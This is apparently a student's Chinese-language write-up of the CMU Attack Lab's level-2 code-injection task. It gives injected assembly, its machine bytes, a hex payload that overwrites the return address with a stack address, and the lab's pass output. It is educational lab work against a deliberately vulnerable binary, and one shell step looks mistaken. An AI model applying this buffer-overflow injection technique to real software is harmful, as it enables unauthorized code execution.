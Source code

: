 ```
   0x0000000000401833 <+71>:    call   0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:    mov    $0x2,%edi
   0x000000000040183d <+81>:    call   0x401d4f <fail>
   0x0000000000401842 <+86>:    mov    $0x0,%edi
   0x0000000000401847 <+91>:    call   0x400e40 <exit@plt>
End of assembler dump.
```
构造注入的代码,首先需要覆写返回地址,使其跳转到我注入代码的地址处.
```
	mov    $0x59b997fa, %edi       # 传入参数:我的cookie
	mov    $0x4017ec,%r8
	call   *%r8                    # 跳转到touch2函数(不能用call 0x4017ec,会跳转到相对地址)
```
把这个代码保存为Phase2.s.
获取以上代码的机器指令
```shell
gcc -c Phase2.s
objdump -d Phase2.o > Phase2.d
```
看看Phase2.d的输出:
```shell
$ cat Phase2.d
Phase2.o:     file format elf64-x86-64


Disassembly of section .text:

   0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
   5:   49 c7 c0 ec 17 40 00    mov    $0x4017ec,%r8
   c:   41 ff d0                call   *%r8
```
然后把十六进制数输入Phase2文件
```
/* Phase2 */
bf fa 97 b9 59          /* mov    $0x59b997fa,%edi */
49 c7 c0 ec 17 40 00    /* mov    $0x4017ec,%r8 */
41 ff d0                /* call   *%r8 */
/* 以上15字节 */
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff
78 dc 61 55             /* 返回地址覆写为0x5561dc78 */
```
生成字符串
```shell
mv Phase2.s Phase2.d Phase2.o
./hex2raw < Phase2 > Phase2-raw
```
成功了!
```shell
$ ./ctarget -qi Phase2-raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 49 C7 C0 EC 17 40 00 41 FF D0 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF 78 DC 61 55
```
